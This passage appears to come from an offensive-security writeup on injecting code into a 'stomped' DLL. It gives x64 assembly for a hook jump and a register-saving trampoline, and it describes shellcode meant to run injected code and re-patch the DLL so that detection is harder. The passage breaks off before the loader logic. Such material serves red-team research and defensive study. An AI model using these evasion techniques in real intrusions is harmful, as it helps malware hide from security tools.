 ```asm
mov r15, <ADDRESS-OF-TRAMPOLINE>
jmp r15
```

##### Trampoline

```asm
push rcx                                ; Save 4 main args
push rdx
push r8
push r9
push rdi                                ; Saving RDI, as we're using to store RSP
mov rdi, rsp
and rsp, 0fffffffffffffff0h             ; Align stack (required before "call" instruction)
sub rsp, 40h                            ; Shadow space
mov r15, <ADDRESS-OF-LOADER>h           ; Move routine into r15
call r15                                ; Call routine
add rsp, 40h                            ; Restore rsp
mov rsp, rdi
pop rdi                                 ; Restore RDI
pop r9                                  ; Restore original parameters
pop r8
pop rdx
pop rcx
ret                                     ; ret
```

##### Shellcode

A very important  piece of this puzzle is the shellcode itself. The shellcode used should launch our code
AND re-patch the DLL to make our injection as difficult to detect as possible.

To build the main shellcode, we will use a technique shared by Aleksandra Doniec (aka [hasherezade](https://twitter.com/hasherezade)).

I have implemented a helper script to do this within [inceptor](https://github.com/klezVirus/inceptor.git), to facilitate the process a bit.
It's available [here](https://github.com/klezVirus/inceptor/blob/dev/inceptor/pic-generator.py).

> Note:
> Chetan Nayak (aka paranoidninja), among others, also described this technique (for GCC, though) [here](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/).

###### Shellcode 1 - Loader

This shellcode need to be used to avoid a problem that I called "shooting on your feet". Indeed, when
this shellcode is executing, the program instruction pointer will be in the "stomped" DLL. To avoid 
overwriting the instructions that we are executing, we will use this loader to set up the shellcode
on the heap and schedule its execution while we are restoring the stomped DLL. 

The logic of our shellcode will be something like this:

